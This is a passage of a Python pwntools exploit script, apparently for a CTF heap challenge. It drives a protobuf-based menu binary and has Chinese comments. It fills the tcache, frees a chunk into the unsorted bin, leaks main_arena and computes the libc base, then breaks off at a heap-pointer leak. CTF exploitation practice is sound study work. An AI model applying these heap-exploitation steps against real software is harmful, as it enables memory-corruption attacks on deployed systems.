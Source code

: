 ```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')

sd = lambda s:p.send(s)
sl = lambda s:p.sendline(s)
rc = lambda s:p.recv(s)
ru = lambda s:p.recvuntil(s)
sda = lambda a,s:p.sendafter(a,s)
sla = lambda a,s:p.sendlineafter(a,s)
irt = lambda :p.interactive()
dbg = lambda s=None:gdb.attach(p,s)
uu32 = lambda d:u32(d.ljust(4,b'\0'))
uu64 = lambda d:u64(d.ljust(8,b'\0'))

p = process('./pwn')
#p = remote('123.57.248.214',21202)

import devicemsg_pb2

def new(i,s,c):
        msg = devicemsg_pb2.Devicemsg()  #弄一个序列化结构体，其实就是类似JSON
        msg.actionid = 1  #结构体初始化
        msg.msgidx = i
        msg.msgsize = s
        msg.msgcontent = c
        sda(': \n',msg.SerializeToString()) #序列化
def free(i):
        msg = devicemsg_pb2.Devicemsg()
        msg.actionid = 4
        msg.msgidx = i
        msg.msgsize = 0
        msg.msgcontent = b''
        sda(': \n',msg.SerializeToString())
def show(i):
        msg = devicemsg_pb2.Devicemsg()
        msg.actionid = 3
        msg.msgidx = i
        msg.msgsize = 0
        msg.msgcontent = b''
        sda(': \n',msg.SerializeToString())
def edit(i,c):
        msg = devicemsg_pb2.Devicemsg()
        msg.actionid = 2
        msg.msgidx = i
        msg.msgsize = 0
        msg.msgcontent = c
        sda(': \n',msg.SerializeToString())

    
#tcache中每个链表最多7个节点(chunk)
#暴tcache，进入unsorted bin
for i in range(8):
        new(i,0xf0,b'')
for i in range(8):
        free(i)
#泄露main_arena
show(7)
rc(0x50)
#计算出libc，使用main_arena的工具
libc_base = uu64(rc(8))-0x1ecbe0
success('libc_base --> %s',hex(libc_base))

#泄露堆指针.指向的tcache的结构
```